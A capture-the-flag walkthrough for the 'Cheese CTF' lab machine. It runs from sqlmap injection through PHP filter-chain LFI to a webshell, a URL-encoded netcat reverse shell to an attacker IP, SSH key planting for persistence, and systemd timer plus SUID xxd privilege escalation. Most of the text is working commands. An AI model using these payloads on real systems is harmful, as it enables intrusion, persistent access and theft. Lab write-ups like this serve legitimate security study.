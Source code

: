 # Cheese CTF - Easy

```sh
sudo vim /etc/hosts
# map cheesectf.thm to IP

nmap -T4 -p- -A -Pn -v cheesectf.thm
# had to stop this as all ports were shown as open
```

* The ```nmap``` scan had to be stopped in between as all ports were showing up as open; this is to misguide us so we can start from common services

* Starting with the webpage on port 80, we have 'The Cheese Shop' website - we can inspect the source code for any clues

* We have an email 'info@thecheeseshop.com', a login page at '/login.php' and a 'script.js' file - which we cannot read

* The login page has username & password fields - we can try common creds and simple injection payloads before going for bruteforce:

    ```sh
    # common creds like 'admin:admin' or 'admin:password' do not work
    # we can try for SQLi test

    sqlmap -u 'http://cheesectf.thm/login.php' --data='username=test&password=pass' --level=5 --risk=3
    ```

* ```sqlmap``` shows that time-based blind SQLi works and is redirected to <http://cheesectf.thm/secret-script.php?file=supersecretadminpanel.html>

* This page is the admin panel for 'The Cheese Shop'; we have 3 sections - Orders, Messages and Users

* There is no content for these pages; however we can see that it uses PHP filters. For example, the orders page is at <http://cheesectf.thm/secret-script.php?file=php://filter/resource=orders.html>

* We can try to get RCE from PHP filter wrappers (via LFI), step-by-step:

    * We can try to access the source code of the 'secret-script.php' first - <http://cheesectf.thm/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php> - this gives base64-encoded output; when decoded, it shows the PHP code used here:

        ```php
        <?php
        //echo "Hello World";
        if(isset($_GET['file'])) {
            $file = $_GET['file'];
            include($file);
        }
        ?>
        ```
    
    * This fetches the file without any sanitization, so LFI (local file inclusion) vulnerability can be exploited here to get RCE

    * We can similarly read local files such as ```/etc/passwd``` - <http://cheesectf.thm/secret-script.php?file=php://filter/convert.base64-encode/resource=/etc/passwd> (output to be decoded from base64)

    * Googling for RCE from PHP wrappers gives us references from [Medium](https://medium.com/@sundaeGAN/php-wrapper-and-lfi2rce-81c536ef7a06) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters) - we can use the [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) script

    * Generate the payload using the PHP filter chain script and use it to get RCE:

        ```sh
        python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;;?>'
        # this generates a huge payload for the actual base64-encoded webshell code
        # which will be injected into php://temp

        FILTERS='php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp'
        # paste the entire payload into this var

        curl "http://cheesectf.thm/secret-script.php?0=id&file=$FILTERS" --output -
        # the $FILTERS payload is for the malicious PHP filter wrapper
        # '0' is the parameter for the webshell, to which we pass our commands
        # '--output -' has to be used for curl to print to terminal, even if it is binary (garbage chars included)
        ```
    
    * The output of ```id``` is shown, we are 'www-data' - as we have RCE, we can try to get a reverse shell now:

        ```sh
        # setup listener
        nc -nvlp 4444

        # get URL-encoded reverse shell one-liner from 'revshells.com' and use it to get RCE
        curl "http://cheesectf.thm/secret-script.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.14.73.62%204444%20%3E%2Ftmp%2Ff&file=$FILTERS" --output -
        # we have reverse shell now
        ```

* In our reverse shell as 'www-data':

    ```sh
    # stabilise reverse shell
    which python3
    # we have python3
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    # now Ctrl+Z to background shell
    stty raw -echo; fg
    # press Enter twice

    pwd

    ls -la
    # browse the files

    cat login.php
    # we get the creds 'comte:VeryCheesyPassword'

    ls -la /home
    # we have only 'comte' user

    ls -la /home/comte/
    # we cannot get user flag yet, but we have '.ssh' directory

    ls -la /home/comte/.ssh
    # we have empty 'authorized_keys' file, and it seems writable

    # for persistent SSH session
    # on attacker
    ssh-keygen -f comte
    # no passwords

    chmod 600 comte

    cat comte.pub
    # copy the contents

    # in reverse shell as 'www-data'
    echo "<public key>" > /home/comte/.ssh/authorized_keys
    
    chmod 600 /home/comte/.ssh/authorized_keys
    # this does not work

    # in attacker
    ssh -i comte comte@cheesectf.thm
    # the SSH session still works and we have SSH as 'comte' now

    cat user.txt
    # user flag

    # now we can do basic enumeration for privesc

    sudo -l
    # this does not ask for password
    ```

* From the output of ```sudo -l```, we can see without entering password we can execute the following commands:

    ```sh
        (ALL) NOPASSWD: /bin/systemctl daemon-reload
        (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
        (ALL) NOPASSWD: /bin/systemctl start exploit.timer
        (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
    ```

* systemd 'timer' files are used for scheduling tasks, and are associated with corresponding service units ('.service' files) - so we need to check both the service and timer files:

    ```sh
    ls -la /etc/systemd/system/exploit*
    # exploit.service is not writable
    # but exploit.timer is writable by all

    cat /etc/systemd/system/exploit.service
    # this contains the following line
    # ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
    
    # this means it copies the 'xxd' binary to /opt, and sets the SUID and executable bit
    # we do not have a systemctl exploit on GTFObins, as that requires either writable service unit or 'status' command as sudo
    # but we have SUID exploit for 'xxd'

    cat /etc/systemd/system/exploit.timer
    # this does not have the OnBootSec variable defined
    # this will throw an error if we run it, but we can still try it

    sudo /bin/systemctl daemon-reload

    sudo /bin/systemctl enable exploit.timer

    sudo /bin/systemctl start exploit.timer
    # this fails to run the exploit service due to 'bad unit file setting'

    # we can check where the exact error is
    systemd-analyze verify exploit.timer
    # this shows 'timer unit lacks value setting'
    
    # we should not leave an empty value
    vim /etc/systemd/system/exploit.timer
    # OnBootSec=0

    # now we can reload the systemd daemon, enable and start the service unit
    sudo /bin/systemctl daemon-reload
    sudo /bin/systemctl enable exploit.timer
    sudo /bin/systemctl start exploit.timer

    ls -la /opt
    # now, we have xxd with SUID and executable bit here

    # use the GTFObins exploit for xxd to get the root flag
    LFILE=/root/root.txt

    /opt/xxd "$LFILE" | /opt/xxd -r
    # reads root flag
    ```